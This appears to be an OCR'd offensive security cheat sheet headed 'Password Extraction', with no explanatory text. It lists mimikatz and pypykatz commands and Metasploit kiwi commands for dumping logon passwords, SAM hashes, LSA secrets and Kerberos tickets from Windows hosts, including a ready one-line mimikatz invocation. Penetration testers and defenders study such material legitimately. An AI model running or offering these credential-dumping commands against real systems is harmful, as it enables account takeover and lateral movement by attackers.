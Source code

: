 # Password Extraction

### mimikatz/pypykatz

Need to match architecture

```bash
privilege::debug
20 ‘OK’

sekurlsa::logonPasswords
lsadump::sam
lsadump::lsa /patch
lsadump::secrets
kerberos::list

mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"

pypykatz lsa minidump filename.DMP
```

### Metasploit

```
load kiwi

creds_all
lsa_dump_lsa
lsa_dump_secrets
kerberos_list
```

##
